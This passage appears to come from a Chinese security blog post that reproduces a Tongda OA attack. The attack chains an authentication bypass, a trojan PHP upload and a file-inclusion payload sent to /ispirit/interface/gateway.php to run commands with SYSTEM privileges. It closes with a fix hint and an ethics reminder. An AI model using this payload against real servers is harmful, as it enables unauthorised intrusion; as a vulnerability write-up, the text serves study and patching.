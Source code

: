 单包发送，会返回一个数据包，数据包包含了文件上传的路径。

我们单包发送会在通达 OA 系统的文件中生成木马 php 文件。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NcCXNg39Omcf9bmwgS3VYOTC9XDqxVvqnOUFY6iaXPqL2YdutkJD2htw/640?wx_fmt=jpeg)  
  

很明显的可以看到，上传成功了，接下来利用文件包含执行上传的木马文件  
访问地址

```
/ispirit/interface/gateway.php<br style="overflow-wrap: break-word !important;">
```

抓包，构造 payload

```
json={"url":"/general/../../attach/im/2005/1151884360.123.php"}&cmd=whoami
```

查看返回包（这里一定要发 POST 包）

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NdKpo7odIhMqC6V8esUKUenQvCPPkxd3dtrnjhyDaR8cbcqq3I0iacqg/640?wx_fmt=jpeg)  
  

system 权限

执行一下 CMD 命令看一下

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5Nn8mSOpqMCW4FoyByeBIqHVoiaWOru7dCTZaiaf1odTlqKGibU9UFs0hicQ/640?wx_fmt=jpeg)

0x07 总结
-------

可以看到，各种危害不是很大的漏洞，组合起来危害还是比较大的，尤其是在这个攻击中两次都利用到的认证绕过，起到了关键的作用。

通过绕过认证访问到上传接口进行图片马的上传，再结合上文件包含，造成了 RCE。

目前最直接的修复方式就是替换官方给的文件

此漏洞本人通过查阅各方面的资料复现了 5 个小时左右，不敢说全网最详细，也差不多了。

希望对大家有所帮助，同时大家一定要做一个正直的白帽子

  

**回顾往期内容**

[实战纪实 | 一次护网中的漏洞渗透过程](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247488327&idx=1&sn=c6677ad2bc524802c79c91a8982c2423&chksm=fa686a36cd1fe3207916178ce750add0fe89e6e0b6bdae53f42429d71a259d53cb39db41a7f5&scene=21#wechat_redirect)

[面试分享 #哈啰 / 微步 / 斗象 / 深信服 / 四叶草](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247491501&idx=1&sn=70aae2e2f83d503ca6fad3c4f952bd6e&chksm=fa6866dccd1fefca9de95e8c4c42b81637de45b73319931fcd9e5fdc3752774ac306f76b53f6&scene=21#wechat_redirect)

[反杀黑客 — 还敢连 shell 吗？蚁剑 RCE 第二回合~](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247485574&idx=1&sn=d951b776d34bfed739eb5c6ce0b64d3b&chksm=fa6871f7cd1ff8e14ad7eef3de23e72c622ff5a374777c1c65053a83a49ace37523ac68d06a1&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

